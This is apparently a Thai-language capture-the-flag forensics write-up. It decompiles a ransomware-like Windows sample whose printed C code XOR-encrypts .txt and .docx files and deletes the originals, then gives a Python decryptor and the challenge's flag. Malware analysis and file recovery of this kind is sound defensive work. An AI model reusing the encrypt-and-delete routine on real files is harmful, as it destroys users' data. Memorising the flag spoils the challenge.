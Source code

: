 > Part 3 : เมื่อเราทราบที่มาของไฟล์นี้เรียบร้อยแล้ว ต่อไปก็ช่วยกู้คืนไฟล์ทั้งหมดกลับมาให้หน่อย แล้วคุณจะได้เจอคำตอบอยู่ในนั้น
>
> (ไฟล์มัลแวร์ได้ถูกเก็บไว้ใน sample.zip อย่างปลอดภัย password : infected)
>
> SHA256 : d4b595fb153d1657ebe5bb3ea2a2f24ff7aeefab1e67b8ba5d4b554693e82afa
>
>Format flag Part 3 : flag{flag}

แตกไฟล์ออกมา จะได้ไฟล์ malware เป็น PE32+ for Windows

![image](https://github.com/user-attachments/assets/3a3712d0-d7ca-41cb-935c-366e5b611b70)

ใช้ Dogbolt ในการ decompile malware file เพื่ออ่าน source code

![image](https://github.com/user-attachments/assets/9c089e5a-7724-4fac-b0df-013d1b80b484)

เลื่อนๆ อ่านโค้ดลงมาจนกระทั่งเจอ function `main()`

```c
int64_t main()
{
    __main();
    void _Str;
    generateKey(&_Str, 8);
    char var_19 = 0;
    struct { struct _finddata64i32_t dd_dta; struct dirent dd_dir; __padding char _234[0x4];long long int dd_handle; int dd_stat; char dd_name[0x1]; }* dirp = opendir(u".…");
    
    if (!dirp)
        return 1;
    
    while (true)
    {
        struct dirent* rax_15 = readdir(dirp);
        
        if (!rax_15)
            break;
        
        void var_58;
        int16_t var_52;
        
        if (!stat(&rax_15->d_name, &var_58) && (var_52 & 0xf000) == 0x4000)
            continue;
        
        if (!strstr(&rax_15->d_name, ".txt") && !strstr(&rax_15->d_name, ".docx"))
            continue;
        
        encryptFileWithXOR(&rax_15->d_name, &_Str, strlen(&_Str));
    }
    
    closedir(dirp);
    return 0;
}
```

จะพบว่ามีการเรียกใช้ 2 functions ที่น่าสนใจก็คือ `generateKey()` และ `encryptFileWithXOR()` ที่จะวนลูปตรวจสอบ directory และทำการเข้ารหัสไฟล์เมื่อพบไฟล์ที่เป็น .txt และ .docx โดยการใช้ function `encryptFileWIthZOR()` และ key ที่ถูกสร้างจาก `generateKey()` ว่าแล้วก็ลงไปดูอีก 2 functions นี้กันต่อ เริ่มจาก `generateKey()`

```c
void* generateKey(int64_t arg1, int64_t arg2)
{
    int64_t var_19;
    __builtin_strncpy(&var_19, "Wowza888", 0x11);
    void* i;
    
    for (; i < arg2; i += 1)
        *(i + arg1) = *(i + &var_19) ^ 8;
    
    return i;
}
```

function `generateKey()` จะใช้ string “Wowza888” ไป XOR กับ 8 โดยจะนำ key ไปเก็บที่ `arg1` และทำงานวนลูปไปจน `arg2` มาดูที่ function `encryptFileWithXOR()`

```c
FILE* encryptFileWithXOR(char* arg1, int64_t arg2, int64_t arg3)
{
    FILE* _Stream = fopen(arg1, "rb");
    
    if (!_Stream)
        return _Stream;
    
    fseek(_Stream, 0, 2);
    int32_t rax_3 = ftell(_Stream);
    fseek(_Stream, 0, 0);
    void* _Buffer = malloc(rax_3);
    
    if (!_Buffer)
        return fclose(_Stream);
    
    fread(_Buffer, 1, rax_3, _Stream);
    fclose(_Stream);
    
    for (int32_t i = 0; i < rax_3; i += 1)
        *(_Buffer + i) ^= *(arg2 + COMBINE(0, i) % arg3);
    
    void var_238;
    snprintf(&var_238, 0x200, "%s.wowza", arg1);
    FILE* _Stream_1 = fopen(&var_238, "wb");
    
    if (_Stream_1)
    {
        fwrite(_Buffer, 1, rax_3, _Stream_1);
        fclose(_Stream_1);
    }
    
    remove(arg1);
    return free(_Buffer);
}
```

function `encryptFileWithXOR()` จะทำการ encrypt file with XOR ด้วย key จาก `generateKey()` แล้วเซฟเป็นไฟล์ `.wowza` ก่อนจะลบไฟล์ต้นฉบับทิ้งไป
พอรู้ logic การทำงานของโค้ดทั้งหมดแล้ว ก็ได้เวลาทำการเขียนโค้ดเพื่อ reverse กู้ไฟล์กลับคืนมา

```python
import os
import glob

# Function to generate the key based on the C code logic
def generate_key(base_key: str):
    """Generate the XOR key by applying XOR 8 to each byte of the base key."""
    return bytearray([byte ^ 8 for byte in base_key.encode()])

# Function to decrypt a file using XOR cipher
def decrypt_file(file_path, key):
    """Decrypt an XOR-encrypted file and restore it."""
    try:
        # Open the encrypted file (with .wowza extension)
        with open(file_path, 'rb') as f:
            encrypted_data = f.read()
        
        # Check if the file is empty or corrupted
        if not encrypted_data:
            print(f"[-] Skipping {file_path}: File is empty or unreadable.")
            return

        # Apply XOR to each byte using the key (repeated for each byte)
        decrypted_data = bytearray(len(encrypted_data))
        for i in range(len(encrypted_data)):
            decrypted_data[i] = encrypted_data[i] ^ key[i % len(key)]

        # Generate the original file name by removing the .wowza extension
        original_file_path = file_path.rsplit('.wowza', 1)[0]

        # Save the decrypted data to the original file name
        with open(original_file_path, 'wb') as f:
            f.write(decrypted_data)

        print(f"[+] Successfully decrypted: {original_file_path}")

    except Exception as e:
        print(f"[-] Error decrypting {file_path}: {e}")

# Main function to decrypt all .wowza files in a given directory
def decrypt_files_in_directory(directory, key):
    """Find and decrypt all .wowza files in the specified directory."""
    wowza_files = glob.glob(os.path.join(directory, "*.wowza"))

    if not wowza_files:
        print("[-] No encrypted (.wowza) files found.")

    for file_path in wowza_files:
        decrypt_file(file_path, key)

if __name__ == "__main__":
    # Generate the key dynamically (avoids hardcoded key errors)
    base_key = "Wowza888"
    key = generate_key(base_key)

    # Use the correct target directory
    encrypted_dir = "/WTCTT2024_F/Forensics/Victim_Triage/C/Users/mirthz/Desktop"

    # Call function to decrypt files
    decrypt_files_in_directory(encrypted_dir, key)

    print("\n[✔] Decryption process completed.")
```

ทำการรัน script เพื่อ decrypt กู้คืนไฟล์ทั้งหมด ทีนี้เราจะได้ไฟล์ original กลับมาแล้ว

![image](https://github.com/user-attachments/assets/0c98e9e6-fc8b-4f7b-bbb9-271e4d2dab58)

![image](https://github.com/user-attachments/assets/820ed850-a8c3-44f6-9462-f469f6308f78)

เริ่มทำการสำรวจไฟล์ เริ่มจากไฟล์ README.txt จะได้ข้อความว่า “The Flag is divided into three parts.” แสดงว่าอยู่ในไฟล์ .docx ที่เหลือสินะ

![image](https://github.com/user-attachments/assets/12cb70f2-ed48-45ff-808e-045d20403da6)

![image](https://github.com/user-attachments/assets/df13d46a-a468-463f-84ce-578f491bcaca)

![image](https://github.com/user-attachments/assets/d695f82e-577d-4c6d-b62d-f1bf0e17ec24)

FLAG: flag{Hello_From_The_Hell_57735773}
